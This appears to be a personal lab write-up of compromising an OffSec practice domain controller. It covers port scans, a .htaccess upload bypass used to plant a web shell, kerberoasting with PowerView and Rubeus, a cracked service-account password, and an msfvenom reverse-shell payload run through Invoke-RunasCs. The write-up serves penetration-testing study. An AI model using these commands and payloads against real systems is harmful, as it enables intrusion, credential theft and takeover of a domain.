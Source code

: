 AD Windows ttl=125

# rustscan

```
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack ttl 125
80/tcp    open  http             syn-ack ttl 125
88/tcp    open  kerberos-sec     syn-ack ttl 125
135/tcp   open  msrpc            syn-ack ttl 125
139/tcp   open  netbios-ssn      syn-ack ttl 125
389/tcp   open  ldap             syn-ack ttl 125
445/tcp   open  microsoft-ds     syn-ack ttl 125
464/tcp   open  kpasswd5         syn-ack ttl 125
593/tcp   open  http-rpc-epmap   syn-ack ttl 125
636/tcp   open  ldapssl          syn-ack ttl 125
3268/tcp  open  globalcatLDAP    syn-ack ttl 125
3269/tcp  open  globalcatLDAPssl syn-ack ttl 125
5985/tcp  open  wsman            syn-ack ttl 125
9389/tcp  open  adws             syn-ack ttl 125
49666/tcp open  unknown          syn-ack ttl 125
49668/tcp open  unknown          syn-ack ttl 125
49673/tcp open  unknown          syn-ack ttl 125
49674/tcp open  unknown          syn-ack ttl 125
49677/tcp open  unknown          syn-ack ttl 125
49704/tcp open  unknown          syn-ack ttl 125
```

# nmap

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
80/tcp   open  http          Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
|_http-title: Access The Event
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-06-15 09:50:15Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open  mc-nmf        .NET Message Framing
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 4 hops
Service Info: Host: SERVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-06-15T09:52:44
|_  start_date: N/A
```


# initial

Got so many things and checks smb but nothing and then started dirbuster and look at site

seen upload button in `buy-tickets`

![[Pasted image 20240615161501.png]]

even found `/uploads` directory where files are getting stored

so I tested with `.php` but only image files are allowed, tried to change name and content and files are getting bypass things but nothing gets rendered on screen

I have no clue what `.htaccess` is but now I know!!

### .htaccess

basically config file which checks what to allow and what not

Below are some usage of htaccess files in server:

1) AUTHORIZATION, AUTHENTICATION: .htaccess files are often used to specify the security restrictions for the particular directory, hence the filename "access". The .htaccess file is often accompanied by an .htpasswd file which stores valid usernames and their passwords.

2) CUSTOMIZED ERROR RESPONSES: Changing the page that is shown when a server-side error occurs, for example HTTP 404 Not Found. Example : ErrorDocument 404 /notfound.html

3) REWRITING URLS: Servers often use .htaccess to rewrite "ugly" URLs to shorter and prettier ones.

4) CACHE CONTROL: .htaccess files allow a server to control User agent caching used by web browsers to reduce bandwidth usage, server load, and perceived lag.

![[Pasted image 20240615162233.png]]

https://medium.com/@madhuhack01/insecure-file-upload-basic-bypass-76d1b9197e4c
https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass

[[htaccess bypass]]

with both tricks

![[Pasted image 20240615162346.png]]

uploaded best shell with `.dork` extension and got shell
# priv esc

![[Pasted image 20240617142419.png]]

next step as it is DC, I do check kerberoasting

### kerberoast

```
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```

![[Pasted image 20240617225538.png]]

```
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat
```

with this we can get hash directly but it will need much more formatting

![[Pasted image 20240617225643.png]]

it will give hash for krbtgt as well

#### rubeus

```
.\Rubeus.exe kerberoast /nowrap
```

![[Pasted image 20240617225805.png]]

cracking that hash given pass: `trustno1` for `svc_mssql`

### runas

now as we have pass, we should able to run any process with it so we will run cmd and get reverse shell or make shell with msfvenom and run it with that pass and user

#### Invoke-RunasCs.ps1

https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.178 LPORT=80 -f exe -o reverse.exe
```

```
Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "reverse.exe"
```

![[Pasted image 20240617230548.png]]

### SeManageVolumePrivilege

This is totally new to me!

https://medium.com/@raphaeltzy13/exploiting-semanagevolumeprivilege-with-dll-hijacking-windows-privilege-escalation-1a4f28372d37

![[Pasted image 20240617230731.png]]

[[SeManageVolumePrivilege]]

